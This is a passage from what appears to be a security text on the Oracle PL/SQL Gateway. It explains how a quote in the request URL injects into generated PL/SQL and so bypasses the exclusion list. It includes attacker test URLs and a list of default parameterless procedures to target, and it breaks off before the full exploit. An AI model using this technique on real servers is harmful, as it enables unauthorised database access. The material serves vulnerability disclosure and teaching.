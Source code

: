 ```
 35    null;
 36    null;
 37    commit;
 38    owa.get_page(:data__,:ndata__);
 39   end if;
 40  end if;
 41  :rc__ := rc__;
 42  :db_proc_time__ := dbms_utility.get_time—start_time__;
 43 end;
```

Notice lines 19 and 24. On line 19, the user’s request is checked against a list of known “bad” strings, i.e., the exclusion list. If the requested package and procedure do not contain bad strings, then the procedure is executed on line 24. The XYZ parameter is passed as a bind variable.


If we then request the following:

 ```
 http://server.example.com/pls/dad/INJECT'POINT
 ```

the following PL/SQL is executed:
```
 ..
 18  simple_list__(7) := 'htf.%';
 19  if ((owa_match.match_pattern('inject'point', simple_list__, complex_list__, true))) then
 20   rc__ := 2;
 21  else
 22   null;
 23   orasso.wpg_session.init();
 24   inject'point;
 ..
```

This generates an error in the error log: “PLS-00103: Encountered the symbol ‘POINT’ when expecting one of the following. . .”  What we have here is a way to inject arbitrary SQL. This can be exploited to bypass the exclusion list. First, the attacker needs to find a PL/SQL procedure that takes no parameters and doesn't match anything in the exclusion list. There are a good number of default packages that match this criteria, for example:
```
 JAVA_AUTONOMOUS_TRANSACTION.PUSH
 XMLGEN.USELOWERCASETAGNAMES
 PORTAL.WWV_HTP.CENTERCLOSE
 ORASSO.HOME
 WWC_VERSION.GET_HTTP_DATABASE_INFO
```

An attacker should pick one of these functions that is actually available on the target system (i.e., returns a 200 OK when requested). As a test, an attacker can request

 ```
 http://server.example.com/pls/dad/orasso.home?FOO=BAR
 ```


the server should return a “404 File Not Found” response because the orasso.home procedure does not require parameters and one has been supplied. However, before the 404 is returned, the following PL/SQL is executed:
```
 ..
 ..
 if ((owa_match.match_pattern('orasso.home', simple_list__, complex_list__, true))) then
  rc__ := 2;
 else
    null;
    orasso.wpg_session.init();
    orasso.home(FOO=>:FOO);
    ..
```